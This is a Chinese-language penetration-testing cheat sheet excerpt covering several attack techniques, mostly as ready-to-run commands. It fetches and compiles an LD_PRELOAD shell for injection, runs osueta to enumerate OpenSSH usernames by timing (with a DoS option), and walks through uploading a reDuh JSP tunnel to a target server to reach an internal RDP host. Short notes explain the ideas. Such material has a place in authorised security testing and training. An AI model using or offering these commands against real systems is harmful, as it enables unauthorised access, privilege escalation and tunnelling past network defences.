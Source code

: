 user:~$ su -
Password:
user:~# whoami
root
root:~# id
uid=0(root) gid=0(root) groups=0(root)
使用 LD_PRELOAD 注入程序

$ wget https://github.com/jivoi/pentest/ldpreload_shell.c
$ gcc -shared -fPIC ldpreload_shell.c -o ldpreload_shell.so
$ sudo -u user LD_PRELOAD=/tmp/ldpreload_shell.so /usr/local/bin/somesoft
针对 OpenSSH 用户进行枚举时序攻击

注：枚举时序攻击(“Enumeration Timing Attack”)属于侧信道攻击/旁路攻击(Side Channel Attack)，侧信道攻击是指利用信道外的信息，比如加解密的速度/加解密时芯片引脚的电压/密文传输的流量和途径等进行攻击的方式，一个词形容就是“旁敲侧击”。–参考自 shotgun 在知乎上的解释。

osueta 是一个用于对 OpenSSH 进行时序攻击的 python2 脚本，其可以利用时序攻击枚举 OpenSSH 用户名，并在一定条件下可以对 OpenSSH 服务器进行 DOS 攻击。

# https://github.com/c0r3dump3d/osueta
$ ./osueta.py -H 192.168.1.6 -p 22 -U root -d 30 -v yes
$ ./osueta.py -H 192.168.10.22 -p 22 -d 15 -v yes –dos no -L userfile.txt
使用 ReDuh 构造合法的 HTTP 请求以建立 TCP 通道

注： ReDuh 是一个通过 HTTP 协议建立隧道传输各种其他数据的工具。其可以把内网服务器的端口通过 http/https 隧道转发到本机，形成一个连通回路。用于目标服务器在内网或做了端口策略的情况下连接目标服务器内部开放端口。

对了亲～ReDuh-Gui 号称端口转发神器哦。

# https://github.com/sensepost/reDuh

# 步骤 1
# 上传 reDuh.jsp 目标服务器
$ http://192.168.10.50/uploads/reDuh.jsp

# 步骤 2
# 在本机运行 reDuhClient 
$ java -jar reDuhClient.jar http://192.168.10.50/uploads/reDuh.jsp

# 步骤 3
# 使用 nc 连接管理端口
$ nc -nvv 127.0.0.1 1010

# 步骤 4
# 使用隧道转发本地端口到远程目标端口
[createTunnel] 7777:172.16.0.4:3389

# 步骤 5
# 使用 RDP 连接远程
$ /usr/bin/rdesktop -g 1024x768 -P -z -x l -k en-us -r sound:off localhost:7777
